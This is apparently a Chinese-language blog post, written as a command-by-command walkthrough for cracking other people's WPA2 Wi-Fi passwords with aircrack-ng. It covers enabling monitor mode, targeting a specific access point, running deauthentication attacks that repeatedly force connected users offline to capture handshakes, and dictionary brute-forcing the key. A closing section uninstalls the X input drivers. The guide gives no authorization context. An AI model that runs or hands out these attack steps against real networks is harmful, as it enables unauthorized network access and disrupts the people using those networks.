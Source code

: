 ```yaml
---
title: wifi密码破解
top: false
cover: false
toc: true
mathjax: true
date: 2023-01-16 06:29:43
password: 5c4aaf271c7c13b2372e84982f82f2cd279026950438dfc769c95dcabdfd2a87
summary: Wifi密码暴力破解，不一定成功
tags: wifi
categories: Linux
---
```


### aircrack-ng工具安装
> 如果你是Kali用户，那么可以跳过这一步，Kali自带，我们以Ubuntu为例：
```shell
sudo apt install aircrack-ng # 安装aircrack-ng 这个工具kali-linux默认安装了
```

### 查看无线网卡
```shell
airmon-ng # 查看可用的无线网卡一般以`w`开头
```

### 开启监听模式
```shell
airmon-ng start <网卡名称> # 指定无线网卡开启监听模式
```

### 扫描附近的无线网
```shell
airodump-ng <处于监听模式的网卡名称> # 用这个监听网卡扫描附近的无线网络

# airodump-ng wlp8s0mon
# BSSID: 无线 AP 的硬件地址
# PWR: 信号强度，值是负数，绝对值越小表示信号越强
# CH: 无线网络信道
# ENC: 加密方式，我们要破解的是 WPA2
# ESSID: 无线网络的名称
```

### 监听你想破解的无线网
```shell
airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称> # 使用参数过滤扫描列表，确定扫描目标,可以出指定wifi哪些人在使用 只要有人链接这个wifi就会被抓包

# BSSID: 无线 AP 的硬件地址
# STATION: 用户设备的硬件地址
```

### 对无线AP或者用户设备发起ACK攻击
```shell
aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对目标设备发起ack攻击 让他强制下线 方便他重新链接抓包成功

aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对无线AP设备发起ack攻击 让连接他的设备都下线 方便他重新链接抓包成功
```

### 破解密码
```shell
aircrack-ng -w 密码字典 <包含握手包的 cap 文件> # 使用 aircrack-ng 暴力破解 Wi-Fi 密码 成功会返回 KEY FOUND! 密码字典去网上下载多得很 
```

### 退出监听模式，连接无线网
```shell
airmon-ng stop <处于监听模式的无限网卡名称> # 无线网卡退出监听模式
```

### 使用命令连接网络
```shell
sudo systemctl start NetworkManager # 开启网络服务

ip addr 或者 ifconfig # 查看无线网卡名称(w开头得)

iwlist 无线网卡 scanning | grep -i essid # 扫描可用wifi

nmcli device wifi connect wifi名字 password wifi密码 ifname 无线网卡 # 用这个无线网卡链接指定wifi
```

### 卸载ubuntu系统的IO驱动，不让别人乱碰你得电脑
```shell
sudo apt install xserver-xorg-input-all # 安装

sudo apt autoremove xserver-xorg-input-all # 卸载
```

